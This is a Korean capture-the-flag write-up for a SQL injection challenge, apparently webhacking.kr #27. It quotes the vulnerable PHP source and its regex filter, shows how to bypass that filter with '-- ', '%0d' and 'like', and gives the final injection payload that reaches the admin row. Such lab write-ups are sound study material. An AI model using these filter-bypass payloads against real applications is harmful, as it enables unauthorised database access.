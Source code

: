 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-14-15-18.png)


# **Write-Up**

view-source를 보면 id가 admin이면 점수를 획득할 수 있을 것으로 보인다.

```php
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
```

no가 괄호로 감싸져 있기 때문에 먼저 연산되므로, 18번 문제와 같은 로직으로는 풀리지 않을 것이다.

![](images/2022-01-03-14-15-48.png)

여러 필터링 문자들이 있기 때문에 다음과 같이 우회하자.

    1. '#' -> '-- '

    2. ' ' -> '%0d'

    3. '=' -> 'like'`

따라서 다음과 같은 쿼리를 입력하여 점수를 획득하자.

    0)%0dor%0did%0dlike%0d'admin'--%0d 혹은 0)%0dor%0dno%0dlike%0d2--%0d

![](images/2022-01-03-14-16-04.png)